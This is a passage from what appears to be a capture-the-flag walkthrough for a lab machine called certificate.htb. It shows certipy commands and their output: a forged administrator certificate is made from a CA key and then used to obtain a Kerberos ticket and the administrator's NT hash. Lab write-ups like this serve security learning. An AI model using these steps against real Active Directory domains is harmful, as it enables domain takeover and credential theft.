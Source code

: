 Finally, we can use certipy to forge a certificate for the administrator user, and escalate privileges to domain admin.

```shell
certipy forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb'
Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx
```

```shell
certipy auth -pfx administrator_forged.pfx -dc-ip 10.129.249.89
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```
